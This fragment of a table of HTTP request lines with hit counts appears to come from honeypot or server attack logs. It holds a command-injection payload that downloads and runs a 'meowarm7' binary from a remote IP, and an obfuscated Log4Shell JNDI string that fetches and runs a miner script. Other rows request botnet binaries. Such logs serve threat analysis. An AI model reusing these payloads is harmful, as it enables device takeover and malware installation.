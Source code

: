 |   3 |                     7 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20meowarm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Fmeowarm7%3B%20chmod%20777%20%2A%3B%20.%2Fmeowarm7%20tbk  HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|   4 |                     6 | GET /t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMjYuMTk2L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjI2LjE5Ni9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==%7D%27%29 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
|   5 |                     6 | GET /web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|   6 |                     5 | GET /bins/jklarm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|   7 |                     5 | GET /nabspc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|   8 |                     5 | GET /EdiAf.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|   9 |                     5 | GET /bins/main_arm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |